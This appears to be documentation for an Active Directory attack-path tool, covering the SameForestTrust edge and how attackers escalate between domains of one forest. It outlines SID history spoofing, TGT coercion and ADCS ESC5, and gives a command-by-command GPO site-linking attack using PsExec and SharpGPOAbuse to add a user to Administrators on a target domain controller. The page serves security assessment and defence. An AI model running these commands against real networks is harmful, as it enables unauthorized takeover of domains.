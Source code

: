 ```yaml
---
title: SameForestTrust
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 

The SameForestTrust edge represents a trust relationship between two domains within the same AD forest. In this relationship, the source node domain has a same-forest (intra-realm) trust to the destination node domain, allowing principals (users and computers) from the destination domain to access resources in the source domain.

Because the domains are part of the same forest, they inherently trust each other, granting implicit control over resources across domains.

## Abuse Info

An attacker with control over any domain within the forest can escalate their privileges to compromise other domains through multiple methods.

### Spoof SID history

An attacker can spoof the SID history of a principal in the target domain, tricking the target domain into treating the attacker as a privileged user.

See the SpoofSIDHistory edge for more information.

This attack fails if SID filtering (quarantine) is enabled on the trust relationship in the opposite direction of the attack. The SID filtering blocks SIDs belonging to any other domain than the attacker-controlled domain. However, enabling this setting is rare and generally not recommended.

### Coerce to TGT

An attacker can coerce a privileged computer (e.g., a DC) in the target domain to authenticate to an attacker-controlled computer configured with unconstrained delegation. This provides the attacker with a Kerberos TGT for the coerced computer.

See the [CoerceToTGT](/edges/coerce-to-tgt.mdx) edge for more information.

The attack fails if SID filtering (quarantine) is enabled, as this prevents TGTs from being sent across the trust boundary. Again, this setting is rarely configured.

### ADCS ESC5

The Configuration Naming Context (NC) is a forest-wide partition writable by any DC within the forest. Most Active Directory Certificate Services (ADCS) configurations are stored in the Configuration NC. An attacker can abuse a DC to modify ADCS configurations to enable an ADCS domain escalation opportunity that compromises the entire forest.

Attack Steps:

1. Obtain a SYSTEM session on a DC in the attacker-controlled domain.
2. Create a certificate template allowing ESC1 abuse.
3. Publish the certificate template to an enterprise CA.
4. Enroll the certificate as a privileged user in the target domain.
5. Authenticate as the privileged user in the target domain using the certificate.

See this blog post for further details: [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c).

If ADCS is not installed, an attacker can install ADCS and exploit it, as detailed in the blog post: [Escalating from child domain's admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/).

### GPO linked on Site

AD sites are stored in the forest-wide Configuration NC partition, writable by any DC within the forest. An attacker with SYSTEM access to a DC can link a malicious GPO to the site of any DC in the forest.

Follow these steps:

1. Obtain a SYSTEM session on a DC in the attacker-controlled domain.  

        Use PsExec to start a PowerShell terminal as SYSTEM on the DC:

        ```
        PsExec64.exe -s -i -accepteula powershell
        ```

2. Create a GPO. 

        Use the GroupPolicy module of RSAT to create the new GPO:

        ```
        New-GPO -Name "MyGPO"
    ```

3. Add the compromising setting to the GPO.

        Use SharpGPOAbuse to add a scheduled task that adds a compromised user to the Administrators group:

        ```
        .\SharpGPOAbuse.exe --AddComputerTask --TaskName "MyTask" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net localgroup Administrators /Add DUMPSTER\tim" --GPOName "MyGPO"
        ```

4. Identify a target DC and it's site.

        Use the ActiveDirectory module of RSAT to query for DCs in the target domain:

        ```
        Get-ADDomainController -server bastion.local | select Name,Site
        ```

        Look up the site DistinguishedName:

        ```
        Get-ADReplicationSite Default-First-Site-Name | select DistinguishedName
        ```

5. Set the GPO permissions.

        This step is important to avoid applying the GPO to all computers connected to the site. Use the GroupPolicy module of RSAT to modify the permissions such that Authenticated Users can read the object but only the targeted computer applies the GPO settings:

        ```
        $GPO = Get-GPO -Name "MyGPO"
        $GPO | Set-GPPermissions -PermissionLevel GpoRead -TargetName "Authenticated Users" -TargetType Group -Replace
        $GPO | Set-GPPermissions -PermissionLevel GpoApply -TargetName "BASTION\bldc01" -TargetType Computer
        ```

6. Link the GPO to the site.  
        Use the GroupPolicy module of RSAT to link the GPO to the site:

        ```
        New-GPLink -Name "MyGPO" -Target "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=bastion,DC=local" -Server dc01.dumpster.fire
        ```

        You must specify the server to be the DC where you're running the command, as the command defaults to execute the change on a root domain DC where the compromised DC doesn't have the permissions to link the GPO.

        Wait until replication has happened and the GPO has applied on the target DC, and log in with Administrators access on the compromised DC. Replication within the same site happens within 15 seconds but runs on 3 hour schedule by default across sites. GPOs are applied on a 90-120 min interval by default.

## Opsec Considerations

There is no OPSEC associated with this edge.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

- [T1134.005: Access Token Manipulation: SID-History Injection](https://attack.mitre.org/techniques/T1134/005/)
- [T1187: Forced Authentication](https://attack.mitre.org/techniques/T1187/)
- [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
- [T1558: Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/)
- [T1550.003: Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/)
- [T1484.001: Domain or Tenant Policy Modification: Group Policy Modification](https://attack.mitre.org/techniques/T1484/001/)

### Abuse info references

- [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))
- [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)
- [Escalating from child domain's admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/)
- [SID filter as security boundary between domains? (Part 4) - Bypass SID filtering research](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)
- [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
